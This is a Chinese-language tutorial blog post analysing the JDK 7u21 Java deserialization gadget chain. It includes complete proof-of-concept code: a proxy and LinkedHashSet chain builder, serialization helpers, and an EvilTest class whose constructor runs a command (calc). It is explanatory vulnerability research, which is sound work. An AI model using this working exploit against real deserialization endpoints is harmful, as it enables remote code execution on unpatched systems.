


##  前言

本文简要写写主要思路，详细的分析我附在后面的链接上

##  环境搭建

直接搭建一个`moven`环境

```xml
    <properties>
        <maven.compiler.source>7</maven.compiler.source>
        <maven.compiler.target>7</maven.compiler.target>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.20.0-GA</version>
        </dependency>
    </dependencies>
```

##  分析

`7u21`这条链核心就在于`AnnotationInvocationHandler`这个类。这个类我们并不陌生，在CC链中这个类有两种利用思路，一种是利用它的`readObject()`，另一种就是利用它的`invoke`，因为`AnnotationInvocationHandler`是一个实现了`InvocationHandler`接口的类，可以应用于动态代理中。

我们还是利用他的`invoke`函数：

```java
public Object invoke(Object var1, Method var2, Object[] var3) {
        String var4 = var2.getName();
        Class[] var5 = var2.getParameterTypes();
        if (var4.equals("equals") && var5.length == 1 && var5[0] == Object.class) {
            return this.equalsImpl(var3[0]);
```

如果传入的方法名是`equals`而且方法的参数列表只有一个`Object`对象的时候，就可以进入`equalsImpl()`方法。

 继续看`equalsImpl()`函数

```java
    private Boolean equalsImpl(Object var1) {
        if (var1 == this) {
            return true;
        } else if (!this.type.isInstance(var1)) {
            return false;
        } else {
            //获取this.type的所有的方法
            Method[] var2 = this.getMemberMethods();
            int var3 = var2.length;

            for(int var4 = 0; var4 < var3; ++var4) {
                Method var5 = var2[var4];
                String var6 = var5.getName();
                Object var7 = this.memberValues.get(var6);
                Object var8 = null;
                AnnotationInvocationHandler var9 = this.asOneOfUs(var1);
                if (var9 != null) {
                    var8 = var9.memberValues.get(var6);
                } else {
                    try {
                        var8 = var5.invoke(var1);
                    } catch (InvocationTargetException var11) {
                        return false;
                    } catch (IllegalAccessException var12) {
                        throw new AssertionError(var12);
                    }
                }

                if (!memberValueEquals(var7, var8)) {
                    return false;
                }
            }

            return true;
        }
    }

```

获取`this.type`的所有方法



`invoke`就遍历不断调用所有的方法

```java
if (var9 != null) {
    var8 = var9.memberValues.get(var6);
} else {
    try {
        var8 = var5.invoke(var1);
```

所有说如果让`this.type`是`TemplatesImpl`的类的话，就自然会调用到`newTransformer`或者`getOutputProperties`。而`invoke`的那个参数var1也就是调用方法的对象了，所以var1需要是我们构造的恶意的`TemplatesImpl`对象。这样就可以触发`TemplatesImpl`的那条链子。


结合动态代理，`proxy`调用方法时，就会进入`AnnotationInvocationHandler`类的`invoke`函数,后面就是上面的流程了

```java
package jdk721;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

import javax.xml.transform.Templates;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class jdk {
    public static void main(String[] args) throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates =new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","z3eyond");

        HashMap<String ,Object> memberValues=new HashMap<>();
        memberValues.put("z3eyond","z3eyond");
        Class clazz= Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor=clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler=(InvocationHandler)constructor.newInstance(Templates.class,memberValues);
        Templates proxy=(Templates) Proxy.newProxyInstance(
                Templates.class.getClassLoader(),
                new Class[]{Templates.class},
                handler
        );
        proxy.equals(templates);
    }
}

```

现在问题是，怎么去触发这个`equals`函数？

我们联想到set这个数据结构：

```
Set实际上相当于只存储key、不存储value的Map。我们经常用Set用于去除重复元素。
```

因为对象不重复，因此就会涉及到比较。equals是用来比较两个对象的内容是否相同。

```
最常用的Set实现类是HashSet，实际上，HashSet仅仅是对HashMap的一个简单封装。
```

直接看`HashSet`的`readObject`函数：

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in any hidden serialization magic
        s.defaultReadObject();

        // Read in HashMap capacity and load factor and create backing HashMap
        int capacity = s.readInt();
        float loadFactor = s.readFloat();
        map = (((HashSet)this) instanceof LinkedHashSet ?
               new LinkedHashMap<E,Object>(capacity, loadFactor) :
               new HashMap<E,Object>(capacity, loadFactor));

        // Read in size
        int size = s.readInt();

        // Read in all elements in the proper order.
        for (int i=0; i<size; i++) {
            E e = (E) s.readObject();
            map.put(e, PRESENT);
        }
    }
```

跟进`map.put`方法：

```java
 public V put(K key, V value) {
        if (key == null)
            return putForNullKey(value);
        int hash = hash(key);
        int i = indexFor(hash, table.length);
        for (Entry<K,V> e = table[i]; e != null; e = e.next) {
            Object k;
            if (e.hash == hash && ((k = e.key) == key || key.equals(k))) {
                V oldValue = e.value;
                e.value = value;
                e.recordAccess(this);
                return oldValue;
            }
        }

        modCount++;
        addEntry(hash, key, value, i);
       
```

可以发现对放入的`key`计算`hash`值，如果当前的map中有`hash`值相同的`key`，就会`key.equals(k)`。根据上面的分析，我们需要保证key是proxy、k是恶意TemplatesImpl。而且因为`||`的问题，我们需要`k`是上一个元素。

所以先给HashSet加入恶意TemplatesImpl、然后再加入代理proxy，就能够完成触发。

还有一个问题是，怎么满足`e.hash==hash`这个条件，也就是**恶意TemplatesImpl的hash要和proxy的哈希相等**


在第一次传入恶意TemplatesImpl调用的是自己的hashCode，而第二次传入proxy调用的是AnnotationInvocationHandler重写的hashCode

```java
            } else if (var4.equals("hashCode")) {
                return this.hashCodeImpl();

```

```java
 private int hashCodeImpl() {
        int var1 = 0;

        Entry var3;
        for(Iterator var2 = this.memberValues.entrySet().iterator(); var2.hasNext(); var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())) {
            var3 = (Entry)var2.next();
        }

        return var1;
    }
```

简单来说就是遍历`this.memberValues`这个Map，把每次计算出来的127*(key的hash)^(value的hash)

就很膜作者的思路，他想到让`memberValues`这个Map只有一个键值对，让key的hash为0，这样127*0=0，然后0^xxx仍然是xxx（相同为0，不同为1）。再让value是恶意的TemplatesImpl对象，这样计算的就是那个TemplatesImpl对象的hash值，自然就相同了。

至于hash为0的键，找到的是`f5a5a608`。


因为`hashSet`的`add`函数调用了`map.put`



所以最开始不能直接`memberValues.put("f5a5a608",templates)`


所以整体的poc也出来

```java
package jdk721;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javax.xml.transform.Templates;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.*;

public class jdk7u21 {
    public static void main(String[] args) throws Exception {
        //TemplatesImpl恶意加载字节码实现RCE
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates =new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","z3eyond");

        HashMap<String ,Object> memberValues=new HashMap<>();
        memberValues.put("f5a5a608","z3eyond");
        //需要proxy的equals函数去触发invoke
        Class clazz= Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor=clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler=(InvocationHandler)constructor.newInstance(Templates.class,memberValues);
        Templates proxy=(Templates) Proxy.newProxyInstance(
                Templates.class.getClassLoader(),
                new Class[]{Templates.class},
                handler
        );
	   //add的顺序不能变
        HashSet hashSet=new LinkedHashSet();
        hashSet.add(templates);
        hashSet.add(proxy);
        memberValues.put("f5a5a608",templates);
        byte[] bytes=SerializeUtil.serialize(hashSet);
        SerializeUtil.unserialize(bytes);
    }
}

```

```java
package jdk721;

import javassist.ClassPool;
import javassist.CtClass;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class SerializeUtil {
    public static void setFieldValue(Object object,String name,Object value) throws Exception{
        Field field = object.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(object,value);
    }
    public static Object getFieldValue(Object object,String name) throws Exception{
        Field field=object.getClass().getDeclaredField(name);
        field.setAccessible(true);
        return field.get(object);
    }
    public static byte[] getEvilCode() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath("src\\main\\resources");
        CtClass ctClass = pool.get("EvilTest");
        byte[] code=ctClass.toBytecode();
        return  code;
    }
    public static void unserialize(byte[] bytes) throws Exception{
        ByteArrayInputStream bais=new ByteArrayInputStream(bytes);
        ObjectInputStream ois=new ObjectInputStream(bais);
        ois.readObject();
    }
    public static byte[] serialize(Object obj) throws Exception{
        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }
}

```

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class EvilTest extends AbstractTranslet {

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    public EvilTest() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}

```

这儿可能要注意几个问题：

首先是这个位置：

```
InvocationHandler handler = (InvocationHandler)cons.newInstance(Templates.class, memberValues);
```

`this.type`传的是`Templates.class`，不能是`TemplatesImpl.class`

```
Method[] var1 = AnnotationInvocationHandler.this.type.getDeclaredMethods();
var8 = var5.invoke(var1);
```

如果是`TemplatesImpl.class`的话，这么多`Method`，怎么能控制第一个就调用可以利用的`newTransformer`或者`getOutputProperties`呢？经过我调式，第一个调用的是`init`方法，而且会直接抛出异常，导致后面的方法没法调用.

而在`Templates.class`中，

```java
public interface Templates {

    Transformer newTransformer() throws TransformerConfigurationException;

    Properties getOutputProperties();
}

```

它只有两个方法，而且都是可用的，所以不管先执行哪一个，都可以成功命令执行。

第二个就是这个位置：

```java
HashSet hashSet = new LinkedHashSet();
```

我们在反序列化的时候，实现了两次put，必须第一次put的是TemplatesImpl对象，第二次是代理对象，才可以成功反序列化。说白了就是，次序上需要可控：

>LinkedHashSet 是 Set 的一个具体实现，其维护着一个运行于所有条目的双重链接列表。此链接列表定义了迭代顺序，该迭代顺序可为插入顺序或是访问顺序。
>LinkedHashSet 继承于HashSet，并且其内部是通过 LinkedHashMap 来实现的。有点类似于我们之前说的LinkedHashMap 其内部是基于 Hashmap 实现一样，不过还是有一点点区别的（具体的区别大家可以自己去思考一下）。
>如果我们需要迭代的顺序为插入顺序或者访问顺序，那么 LinkedHashSet 是需要你首先考虑的。

因此利用LinkedHashSet就可以实现次序可控。

##  参考链接

https://ego00.blog.csdn.net/article/details/120007644